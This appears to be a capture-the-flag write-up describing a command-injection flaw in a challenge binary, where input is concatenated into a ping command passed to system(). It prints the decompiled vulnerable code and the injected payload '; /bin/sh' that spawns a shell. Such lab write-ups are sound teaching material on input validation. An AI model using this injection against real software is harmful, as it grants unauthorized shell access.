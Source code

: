 # Writeup: Spawning a Shell via Command Injection

## Challenge Goal
The goal was simple: either spawn a shell or read the flag from the `linux1` binary.

## Initial Analysis
1. **Binary Check:** `linux1` turned out to be an ELF 64-bit executable.
2. **Tooling:** Used Ghidra to decompile and analyze the binary.
3. **Vulnerability:** Found a classic `command injection` in the `gate()` function due to the use of `strcat` and `system` without proper input validation.

### Key Code Block
```c
puts("Guard: Go away or I shall ring the alarm!");
fgets(local_78,0x20,stdin);
strcat((char *)&local_58, local_78);
system((char *)&local_58);
puts("Guard: Where is everybody?");
```
- `fgets` reads up to 32 characters into `local_78`.
- `strcat` appends the input to `local_58`, which initially contained `"ping -c 3 "`.
- `system` executes the entire string as a shell command.

## Exploitation
1. The original string in `local_58` is:
```bash
ping -c 3 
```
2. By entering a clever command, we could close the `ping` command and run our own stuff.

### Payload Used
```bash
; /bin/sh
```
- The `;` stops the `ping` command.
- `/bin/sh` spawns a new shell.

### Steps Taken
1. **Run the binary:**
```bash
./linux1
```
2. **Enter the payload:**
```bash
; /bin/sh
```
3. **Result:** Shell opened, confirmed by the `$` prompt.

## Lessons Learned
- Never pipe user input directly into `system`.
- `strcat` is just asking for trouble if you're not careful.
- Ghidra is super useful for quickly spotting vulnerabilities in C code, especially around `system` and `strcat` usage.

## Conclusion
Challenge completed by a simple command injection. A great reminder of why you should always validate input and avoid unsafe functions.

# References

- ![alt text](/img/image.png)
- ![alt text](/img/image-1.png)

